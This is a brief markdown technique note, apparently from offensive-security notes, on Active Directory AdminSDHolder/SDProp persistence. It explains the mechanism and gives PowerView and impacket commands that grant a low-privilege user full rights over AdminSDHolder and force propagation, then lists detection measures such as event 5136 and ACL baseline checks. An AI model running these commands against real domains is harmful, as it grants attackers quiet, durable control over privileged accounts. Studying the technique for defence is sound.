

# AdminSDHolder / SDProp persistence

### Affected object / attribute
**`CN=AdminSDHolder,CN=System,DC=...`** — `nTSecurityDescriptor`.

### Concept (deep)
**SDProp** (every 60 minutes) copies the AdminSDHolder ACL to all **protected accounts and groups** (`adminCount=1`). Adding an ACE here is **quiet, durable persistence** across DA resets.

### Attack flow (Mermaid)


### Commands
```bash
# ── Add GenericAll for lowpriv ───────────────────────────────────────
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System,DC=corp,DC=local' \
  -PrincipalSamAccountName lowpriv -Rights All

# ── Force SDProp (optional) ──────────────────────────────────────────
Invoke-SDPropagator -timeoutMinutes 1

# ── Read the ACL (audit) ─────────────────────────────────────────────
impacket-dacledit -action read -target-dn 'CN=AdminSDHolder,CN=System,DC=corp,DC=local'
```

### Impact
**Persistent domain-wide privilege** on every protected account.

### Detection and defensive measures
**5136** on `CN=AdminSDHolder`; compare `adminCount=1` objects’ ACLs against baseline; alert on SDProp ACL drift.

---
